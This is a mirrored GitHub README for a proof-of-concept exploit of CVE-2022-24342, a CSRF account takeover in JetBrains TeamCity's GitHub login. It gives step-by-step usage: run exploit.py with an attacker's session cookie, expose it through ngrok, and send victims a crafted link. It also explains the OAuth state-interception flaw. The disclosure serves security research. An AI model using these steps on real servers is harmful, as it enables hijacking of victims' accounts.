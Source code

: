# CVE-2022-24342

PoC for CVE-2022-24342: account takeover via CSRF in GitHub authentication

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/yuriisanin](https://github.com/yuriisanin) |
| Url      | [https://github.com/yuriisanin/CVE-2022-24342](https://github.com/yuriisanin/CVE-2022-24342)                                               |
| Stars    | 34                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* csrf* cve* cve-2022-24342* exploit* jetbrains* teamcity* vulnerability

</details>

## Readme

# CVE-2022-24342
JetBrains TeamCity - account takeover via CSRF in GitHub authentication (PoC)

<!-- TOC -->

- [CVE-2022-24342](#cve-2022-24342)
  - [Requirements](#requirements)
  - [Usage](#usage)
  - [How does it work?](#how-does-it-work)
    - [GitHub OAuth2: query parameters processing order](#github-oauth2-query-parameters-processing-order)
    - [CVE-2022-24342: HTTP requests flow](#cve-2022-24342-http-requests-flow)

<!-- /TOC -->

## Requirements

- JetBrains TeamCity <2021.2.1
- GitHub authentication enabled

## Usage

1.  Try to login with attacker's GitHub account into target TeamCity intance to make TeamCity's GitHub application authorized.

2. Install & run:
```powershell
$ git clone https://github.com/yuriisanin/CVE-2022-24342
$ cd CVE-2022-24342/
$ pip3 install -r requirements.txt
$ python3 exploit.py -h

usage: exploit.py [-h] -s S [-p P]

optional arguments:
  -h, --help  show this help message and exit
  -s S        GitHub user session
  -p P        Uvicorn port

$ python3 exploit.py -s {attackers_github_session_cookie}
```

> If you run the exploit on the local machine, you might need to use Ngrok or alternatives.

``` powershell
$ ngrok http 8000
```

2. Create GitHub OAuth2 application:

```
homepage: "http://{exploit-host}:8000"
authorization callback url: "http://{exploit-host}:8000/callback"
```

3. Send the following link to a victim:

```
http://{exploit-host}:8000/exploit?target_host=http://{target-host}&gh_client_id={github_oauth_client_id}
```

**DEMO:**

[![CVE-2022-24342 Demo](https://img.youtube.com/vi/Xq3nanpOquo/0.jpg)](https://www.youtube.com/watch?v=Xq3nanpOquo)

## How does it work?

TeamCity was vulnerable to query paramater injection during OAuth2 flow, allowing an attacker to redirect user into an arbitrary GitHub OAuth2 application, intercept a valid state parameter, and connect arbitrary GitHub account to victim's TeamCity account.

This was possible due to next things:

- GitHub OAuth2 query parameters processing order
- TeamCity query parameter injection

### GitHub OAuth2: query parameters processing order

![github-oauth-parameters-processing](assets/github-oauth-parameters-processing.png)

### CVE-2022-24342: HTTP requests flow

![requests-flow](assets/requests-flow.png)

## Support

You can follow me on [Twitter](https://twitter.com/SaninYurii), [GitHub](https://github.com/yuriisanin) or [YouTube](https://www.youtube.com/channel/UCLN2EvGxtnucEdrI21PmJZg).



## Get the content

```
git clone https://github.com/yuriisanin/CVE-2022-24342
cd CVE-2022-24342
```

{% embed url="https://github.com/yuriisanin/CVE-2022-24342" %}

<figure><img src="https://avatars.githubusercontent.com/u/11749007?v=4" alt=""><figcaption><p>yuriisanin</p></figcaption></figure>
